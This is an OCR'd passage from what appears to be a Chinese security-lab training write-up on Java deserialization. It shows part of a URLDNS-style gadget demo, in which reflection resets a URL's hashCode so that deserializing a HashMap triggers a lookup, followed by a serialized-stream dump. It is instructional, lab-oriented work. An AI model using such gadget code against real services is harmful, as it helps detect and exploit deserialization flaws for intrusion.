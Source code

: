 ```java
        Class c = Class.forName("java.net.URL");
        Field hashCode = c.getDeclaredField("hashCode"); // java.net.URLStreamHandler类中的hashcode为protected的访问修饰符，就需要用getDeclaredField
        hashCode.setAccessible(true); // 修改访问权限为pubilc
        hashCode.set(url,123); //修改url的hashcode不是-1，这样才会去序列化得到payload
        hash.put(url,1); // 得到要准备序列化的对象hash
        hashCode.set(url,-1); //修改回来，防止反序列化时候不往下执行
        Serialize(hash);
        Unserialize();
    }
    public static void Serialize(Object obj) throws IOException {
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream("1.txt"));
        out.writeObject(obj);
        out.close();
    }
    public static void Unserialize() throws IOException, ClassNotFoundException {
        ObjectInputStream In = new ObjectInputStream(new FileInputStream("1.txt"));
        Object obj= In.readObject();
    }

}
```

也可以查看下序列化后的1.txt

```
PS D:\hillstone\A&DLab\实验室培训\攻防实验室培训_反序列化_宋晓萌\SerializableDemo> java -jar .\SerializationDumper-v1.13.jar -r 1.txt     

STREAM_MAGIC - 0xac ed
STREAM_VERSION - 0x00 05
Contents
  TC_OBJECT - 0x73
    TC_CLASSDESC - 0x72
      className
        Length - 17 - 0x00 11
        Value - java.util.HashMap - 0x6a6176612e7574696c2e486173684d6170
      serialVersionUID - 0x05 07 da c1 c3 16 60 d1
      newHandle 0x00 7e 00 00
      classDescFlags - 0x03 - SC_WRITE_METHOD | SC_SERIALIZABLE
      fieldCount - 2 - 0x00 02
      Fields
        0:
          Float - F - 0x46
          fieldName
            Length - 10 - 0x00 0a
            Value - loadFactor - 0x6c6f6164466163746f72
        1:
          Int - I - 0x49
          fieldName
            Length - 9 - 0x00 09
            Value - threshold - 0x7468726573686f6c64
      classAnnotations
        TC_ENDBLOCKDATA - 0x78
      superClassDesc
        TC_NULL - 0x70
    newHandle 0x00 7e 00 01
    classdata
      java.util.HashMap
        values
          loadFactor
            (float)1.06115891E9 - 0x3f 40 00 00
          threshold
            (int)12 - 0x00 00 00 0c
```